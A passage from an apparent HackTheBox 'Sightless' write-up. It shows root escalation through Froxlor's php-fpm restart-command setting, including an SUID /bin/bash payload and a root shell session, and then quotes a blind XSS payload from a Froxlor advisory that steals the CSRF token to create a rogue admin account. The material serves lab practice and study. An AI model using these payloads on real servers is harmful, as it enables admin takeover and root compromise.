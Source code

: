 That version has no known critical or high level vulnerabilities. Back onto trying to find where in this dashboard I can execute or upload code. 

![export config option]({{ page.img }}_14_froxlor_export_settings_php_fpm.png)

I looked around the config file for any option that might execute code reliably, there were a few such as the mail sending config option and some service restart commands. That did give me an idea to check the php-fpm restart command in the dashboard, found at **http://admin.sightless.htb:8080/admin_phpsettings.php?page=fpmdaemons**.  

![restart command success]({{ page.img }}_15_restart_success.png)

I insert changing */bin/bash* to an SUID so I can run it as root and get a root prompt. When checking the file it seems it was already an SUID, though as a proof of concept the php-fpm service can be disabled and re-enabled from the site which would trigger this code. I initially tried a payload of `cp /bin/bash /tmp/bash && chmod u+s /tmp/bash` but an error gave me the impression **+** and **&** were not smiled upon by the backend code.

```bash
michael@sightless:~$ ls -l /bin/bash
-rwsrwxrwx 1 root root 1396520 Mar 14 11:31 /bin/bash
michael@sightless:~$ /bin/bash -p
bash-5.1# cd /root
bash-5.1# cat root.txt 
1ff7652ae4c84-------------------
```

# Beyond Root

## Froxlor Blind XSS

The chrome debugger was not the intended avenue for getting a login to the Froxlor application. In fact there is a blind XSS that is to be used. [https://github.com/froxlor/Froxlor/security/advisories/GHSA-x525-54hf-xr53](https://github.com/froxlor/Froxlor/security/advisories/GHSA-x525-54hf-xr53) is the reference to it. The payload in question is below.

{% raw %}

```javascript
admin{{$emit.constructor`function+b(){var+metaTag%3ddocument.querySelector('meta[name%3d"csrf-token"]')%3bvar+csrfToken%3dmetaTag.getAttribute('content')%3bvar+xhr%3dnew+XMLHttpRequest()%3bvar+url%3d"https%3a//demo.froxlor.org/admin_admins.php"%3bvar+params%3d"new_loginname%3dabcd%26admin_password%3dAbcd%40%401234%26admin_password_suggestion%3dmgphdKecOu%26def_language%3den%26api_allowed%3d0%26api_allowed%3d1%26name%3dAbcd%26email%3dyldrmtest%40gmail.com%26custom_notes%3d%26custom_notes_show%3d0%26ipaddress%3d-1%26change_serversettings%3d0%26change_serversettings%3d1%26customers%3d0%26customers_ul%3d1%26customers_see_all%3d0%26customers_see_all%3d1%26domains%3d0%26domains_ul%3d1%26caneditphpsettings%3d0%26caneditphpsettings%3d1%26diskspace%3d0%26diskspace_ul%3d1%26traffic%3d0%26traffic_ul%3d1%26subdomains%3d0%26subdomains_ul%3d1%26emails%3d0%26emails_ul%3d1%26email_accounts%3d0%26email_accounts_ul%3d1%26email_forwarders%3d0%26email_forwarders_ul%3d1%26ftps%3d0%26ftps_ul%3d1%26mysqls%3d0%26mysqls_ul%3d1%26csrf_token%3d"%2bcsrfToken%2b"%26page%3dadmins%26action%3dadd%26send%3dsend"%3bxhr.open("POST",url,true)%3bxhr.setRequestHeader("Content-type","application/x-www-form-urlencoded")%3balert("Your+Froxlor+Application+has+been+completely+Hacked")%3bxhr.send(params)}%3ba%3db()`()}}
```

Decoded it is:

```
admin{{$emit.constructor`function b(){var metaTag=document.querySelector('meta[name="csrf-token"]')
var csrfToken=metaTag.getAttribute('content')
var xhr=new XMLHttpRequest()
var url="https://demo.froxlor.org/admin_admins.php"
```